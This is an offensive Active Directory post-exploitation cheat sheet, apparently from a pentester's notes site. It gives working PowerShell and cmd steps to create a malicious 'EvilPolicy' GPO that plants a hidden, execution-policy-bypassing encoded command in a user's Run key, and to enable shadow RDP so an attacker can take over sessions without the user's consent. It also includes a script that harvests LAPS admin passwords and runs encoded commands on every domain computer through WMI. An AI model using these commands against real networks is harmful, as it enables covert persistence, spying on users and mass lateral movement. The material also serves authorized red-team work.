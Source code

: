```yaml
---
description: Post Exploitation in Active Directory
---
```


# Post Exploitation




## GPOs

Identify the OU containing the `VICTIM-PC` object:

```
PS > Add-WindowsFeature -Name "RSAT-AD-PowerShell"
PS > Import-Module ActiveDirectory
PS > Get-ADComputer -Identity VICTIM-PC | select DistinguishedName
```

Create a GPO using GPMC:

1. Run > `gpmc.msc`.
2. Create a new GPO in the OU in which `VICTIM-PC` resides.
3. Remove `Authenticated Users` from **Security Filtering** and add `VICTIM-PC` there.
4. Link it to the OU and edit it.

Usually, it takes between 90 and 120 minutes for a new GPO to be applied. Force it with:

```
Cmd > gpudate.exe /force
```

{% tabs %}
{% tab title="Enable RDP" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Administrative Templates
        Windows Components
          Remote Desktop Services
            Remote Desktop Session Host
              Connections
                Allow users to connect remotely using Remote Desktop Services
                  Enabled
```
{% endtab %}
{% tab title="Allow RDP Connections" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Windows Settings
        Security Settings
          Windows Firewall with Advanced Security
            Inbound Rules
              New Rule (right-click)
                Predefined
                  Remote Desktop
                    Allow
```
{% endtab %}
{% tab title="Edit Local Administrators Membership" %}
```
<POLICY_NAME>
  Computer Configuration
    Preferences
      Control Panel Settings
        New Local Group (right-click)
          Group name (...)
            Members (Add)
              Apply, OK
```
{% endtab %}
{% tab title="Enable Shadow RDP" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Administrative Templates
        Windows Components
          Remote Desktop Services
            Remote Desktop Session Host
              Connections
                Set rules for remote control of Terminal Services user sessions
                  Enabled + Options (Full Control without user's permission)
```
{% endtab %}
{% endtabs %}



### Reach a Locked-down Domain Computer

- [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

If you find yourself in a situation when you're already a domain admin and you need to access a locked-down domain computer (no RDP/WinRM, no SMB shares, no owned local admins, etc.), creating an evil GPO may help.

Create a GPO using PowerShell (will trigger a command when the victim user logs in):

```
PS > Add-WindowsFeature -Name "GPMC"
PS > Import-Module GroupPolicy
PS > New-GPO -Name EvilPolicy -Domain megacorp.local -Server DC01.megacorp.local
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "victim.user" -TargetType User
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "VICTIM-PC" -TargetType Computer
PS > Set-GPPermission -Name EvilPolicy -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
PS > New-GPLink -Name EvilPolicy -Domain megacorp.local -Target "<TARGET_OU>" -Order 1 -Enforced Yes
PS > Set-GPRegistryValue -Name EvilPolicy -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -Value "powershell.exe -NoP -sta -NonI -W Hidden -Exec Bypass -Enc <BASE64_CMD>"
```



### Shadow RDP

- [https://swarm.ptsecurity.com/remote-desktop-services-shadowing/](https://swarm.ptsecurity.com/remote-desktop-services-shadowing/)

Enable Shadow RDP via group policies and connect to an active session on the target machine:

```
Cmd > qwinsta.exe /server:192.168.1.11
Cmd > mstsc.exe /v:192.168.1.11 /shadow:<ID> /noConsentPrompt
```




## Run on Domain Computers

* [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

An example PowerShell script to execute commands as a local admin on all domain computers pulling LAPS passwords automatically:

{% code title="ADComputersCmd.ps1" %}
```powershell
 # Save with Encoding "UTF-8 with BOM"

[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8
$ErrorActionPreference = "Stop"

$command = '[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8; '
$command += 'whoami > C:\Windows\Temp\whoami.txt 2>&1'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | ? {$_.name -ne $(hostname)} | select name,ms-Mcs-AdmPwd | ForEach-Object {
	$comp = $_."name"
	$pass = $_."ms-Mcs-AdmPwd"

	if (Test-Connection -BufferSize 32 -Count 1 -ComputerName $comp -Quiet) {
		try {
			$cred = New-Object System.Management.Automation.PSCredential("$comp\administrator", $(ConvertTo-SecureString $pass -AsPlainText -Force))
			$proc = Invoke-WmiMethod Win32_Process -Name Create -ArgumentList ("powershell -enc $encodedCommand") -ComputerName $comp -Credential $cred

			do {
				Write-Host -ForegroundColor Green "[*] Waiting for script to finish on $comp"
				Start-Sleep -Seconds 2
			} until ((Get-WmiObject -Class Win32_Process -Filter "ProcessId=$proc.ProcessId" -ComputerName $comp -Credential $cred | where {$_.ProcessId -eq $proc.ProcessId}).ProcessId -eq $null)

			net use "\\$comp" /user:administrator $pass 2>&1 | Out-Null
			Get-Content "\\$comp\C$\Windows\Temp\whoami.txt"
			Remove-Item "\\$comp\C$\Windows\Temp\whoami.txt" -Force
			net use "\\$comp" /delete 2>&1 | Out-Null
		}
		catch {
			Write-Host -ForegroundColor Red "[-] Connection failure: $comp"
		}
	}
	else {
		Write-Host -ForegroundColor Yellow "[!] Connection timed out: $comp"
	}
}
```
{% endcode %}
